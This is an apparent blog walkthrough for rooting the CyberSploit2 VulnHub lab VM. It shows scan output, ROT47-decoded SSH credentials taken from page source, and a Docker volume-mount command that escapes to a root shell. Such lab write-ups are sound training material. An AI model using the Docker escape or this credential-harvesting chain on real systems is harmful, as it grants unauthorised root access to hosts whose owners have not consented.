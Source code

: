```yaml
---
title: "Boot 2 Root : Cybersploit 2 VulnHub Walkthrough"
description: 
date: 2025-01-21
categories: [CTF, VulnHub]
tags: [vulnhub, ctf, walkthrough, cybersploit2]
permalink: /cybersploit-2-vulnhub-walkthrough/
image:  
  path: /assets/img/thumbnails/cybersploit2.png
---
```


# Introduction

Welcome to this detailed guide on gaining root access on the **CyberSploit2** virtual machine (VM). This walkthrough is tailored to help penetration testers sharpen their skills through methodical exploration and exploitation. Unlike typical Capture the Flag (CTF) challenges, **CyberSploit2** offers a unique experience without predefined flags, making your journey from boot to root more intriguing.

## VM Information

For the best experience, it is recommended to use **VirtualBox** over VMware to run the CyberSploit2 VM. Below are the essential details to help you get started:

- **Filename**: CyberSploit2.ova
- **File Size**: 1.2 GB
- **MD5**: 8D95C1FE6D20F1FBF2B6A0B1DF7321FA
- **SHA1**: 9BCF57492328A71A1C1CE0A8F7ACB801CAF035D8
- **Download Link**: [CyberSploit2.ova](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

Ensure that you have CyberSploit1 set up as it is referenced during the boot process. You can follow the setup guide for CyberSploit1 [here](https://neospl0it.github.io/cybersploit-1-vulnhub-walkthrough/#starting-up-the-vm).

### Booting Up the VM

Upon starting the CyberSploit2 VM, you will encounter a boot screen:

![Boot Screen](/assets/img/bposts/cybersploit-2-walkthrough/boot-screen.png)

## Initial Reconnaissance

### ARP Scan to Locate the Machine

The first step in your reconnaissance involves conducting an ARP scan to identify the IP address of the VM within your network:

```bash
root@neo ~# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:xx:xx:xx, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.5  08:00:27:ef:ed:19  PCS Systemtechnik GmbH

1 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 1 responded
```

The machine is located at **192.168.1.5**.

### Nmap Scan for Open Ports

Next, perform an **Nmap** scan to discover available services:

```bash
root@neo ~# nmap -sN -sC 192.168.1.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 19:58 IST
Nmap scan report for 192.168.1.5
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE         SERVICE
22/tcp open|filtered ssh
| ssh-hostkey:
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open|filtered http
|_http-title: CyberSploit2
| http-methods:
|_  Potentially risky methods: TRACE
MAC Address: 08:00:27:EF:ED:19 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.74 seconds
```

The scan reveals that ports **22 (SSH)** and **80 (HTTP)** are open.

## Exploiting the HTTP Service

### Analyzing the Web Page

Navigate to the web page hosted on port 80.

![Web Page](/assets/img/bposts/cybersploit-2-walkthrough/browser-img.png)

The page contains text with some characters appearing differently. Inspecting the page source reveals an encoded string using **ROT47**:

![Source Code](/assets/img/bposts/cybersploit-2-walkthrough/source-code.png)

### Decoding ROT47

Use the following command to decode the ROT47 string:

```bash
root@neo ~# echo 'D92:=6?5C2' | tr '!-~' 'P-~!-O'
shailendra
root@neo ~# echo '4J36CDA=@:E`' | tr '!-~' 'P-~!-O'
cybersploit1
```

Alternatively, you can use CyberChef for decoding. The retrieved credentials are:

- **Username**: shailendra
- **Password**: cybersploit1

## Gaining SSH Access

Use the acquired credentials to log in via SSH:

```bash
root@neo ~# ssh shailendra@192.168.1.5
The authenticity of host '192.168.1.5 (192.168.1.5)' can't be established.
ED25519 key fingerprint is SHA256:Ua5bYFU7jRE2PNF3w1hs2yrzHmyU7Q3FWj0xvMKZDro.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.5' (ED25519) to the list of known hosts.
shailendra@192.168.1.5's password:
Last login: Wed Jul 15 12:32:09 2020
[shailendra@localhost ~]$
```

### Escalating Privileges

Upon successful login, list the files in the home directory to find hints:

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
```

The hint indicates that Docker can be exploited for privilege escalation.

### Exploiting Docker for Root Access

Refer to **[GTFOBins](https://gtfobins.github.io/)** for Docker exploits that can break out of restricted environments:

![GTFOBins](/assets/img/bposts/cybersploit-2-walkthrough/gtfobins.png)

Using Docker to spawn an interactive system shell, execute the following command to gain root access:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
1f3e46996e29: Pull complete
Digest: sha256:56fa17d2a7e7f168a043a2712e63aed1f8543aeafdcee47c58dcffe38ed51099
Status: Downloaded newer image for alpine:latest
sh-4.4# whoami
root
```

### Retrieving the Flag

Navigate to the root directory and retrieve the flag:

```bash
sh-4.4# cd /root
sh-4.4# ls
anaconda-ks.cfg  flag.txt  get-docker.sh  logs}
sh-4.4# cat flag.txt
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (`
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_)

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks !
sh-4.4#
```

Congratulations! You have successfully rooted the CyberSploit2 VM.